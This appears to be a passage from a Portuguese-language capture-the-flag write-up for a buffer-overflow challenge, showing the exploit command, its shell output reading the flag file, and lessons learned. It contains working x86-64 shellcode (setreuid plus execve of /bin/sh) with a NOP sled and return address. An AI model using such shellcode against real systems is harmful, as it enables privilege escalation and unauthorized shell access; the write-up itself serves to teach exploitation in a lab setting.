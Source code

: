 Execução:

```bash
./buffer-overflow-2 $(python -c "print('\x90'*90 + \
'\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + \
'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68' + \
'\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05' + \
'\x90'*19 + '\x78\xe2\xff\xff\xff\x7f')") 
```

Ao executar o payload obtemos:

```
new word is doggo<binary garbage...>
sh-4.2$ 
sh-4.2$ cat secret.txt
wowanothertime!!
sh-4.2$
```

---

## Flag encontrada

**Flag:** `wowanothertime!!`

## Observações finais / lições aprendidas
- Em desafios de buffer overflow é comum determinar offsets experimentalmente (envio de padrões, análise em `gdb`/`radare2`) até descobrir onde o RIP é sobrescrito.  
- O uso de um NOP-sled facilita o posicionamento do endereço de retorno.  
- Incluir um *stage* para trocar UID/EGID é útil quando os arquivos alvo pertencem a outro usuário no sistema.  
- Sempre verifique o tamanho exato dos shellcodes (ex.: `setreuid`, `/bin/sh`) e ajuste o padding de acordo com o offset encontrado no binário. 
